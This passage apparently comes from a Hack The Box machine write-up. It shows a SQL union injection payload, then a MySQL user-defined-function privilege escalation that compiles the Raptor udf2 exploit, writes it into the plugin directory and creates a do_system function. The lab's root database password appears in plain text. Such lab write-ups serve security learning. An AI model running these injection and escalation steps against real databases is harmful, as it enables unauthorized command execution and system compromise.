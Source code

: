 According to the `/dashboard` page, this table has at least the fields "title",
"author" and "date". 4 fields with the "id", which can be tested with a union
query injection:

```sql
apehex%20UNION%20SELECT%20null,null,null,null,null--%20-
```

But I couldn't manage to create a JWT for this username...

## Defining a new user function in MySQL

I still haven't leveraged the root access on MySQL. Searching for related
vulnerabilities, I learned about [MySQL UDF][mysql-udf].

First, let's compile the [Raptor payload][raptor-udf2]:

```shell
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Reset between attempts:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'use mysql;drop table foo;'
```

Find where the plugin directory, where the payload should be dropped:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'use mysql;show variables like "%plugin%";'
# +-----------------+---------------------------------------------+
# | Variable_name   | Value                                       |
# +-----------------+---------------------------------------------+
# | plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
# | plugin_maturity | gamma                                       |
# +-----------------+---------------------------------------------+
```

Then create a UDF `do_system`:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'use mysql;create table foo(line blob);' \
    -e'insert into foo values(load_file("/home/svc/raptor_udf2.so"));' \
    -e'select * from foo into dumpfile "/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so";' \
    -e'create function do_system returns integer soname "raptor_udf2.so";' \
    -e'select * from mysql.func;'
# +-----------+-----+----------------+----------+
# | name      | ret | dl             | type     |
# +-----------+-----+----------------+----------+
# | do_system |   2 | raptor_udf2.so | function |
# +-----------+-----+----------------+----------+
```


[author-profile]: https://app.hackthebox.com/users/389926
[dashboard]: images/dashboard.png
[hacktricks]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign
[leak]: images/leak.png
[mysql-udf]: https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
[raptor-udf2]: https://www.exploit-db.com/exploits/1518
